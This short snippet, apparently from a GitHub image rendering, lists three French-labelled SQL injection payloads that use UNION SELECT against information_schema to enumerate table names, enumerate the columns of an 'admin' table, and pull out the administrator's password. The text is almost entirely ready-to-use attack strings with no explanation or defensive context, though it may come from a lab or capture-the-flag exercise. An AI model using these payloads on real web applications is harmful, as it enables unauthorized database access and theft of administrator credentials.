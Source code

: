 ```sql

Obtenir le nom des tables :

' OR 1=1 union select 0, group_concat(table_name),2 FROM information_schema.tables WHERE table_schema=database() order by 1; #


Obtenir le nom des colonnes de la table :

' OR 1=1 union select 0, group_concat(column_name),2 FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name="admin" order by 1; #


Obtenir le mot de passe de l'administrateur :

' OR 1=1 union select 0,motdepasse,2 FROM `admin` order by id; #

```
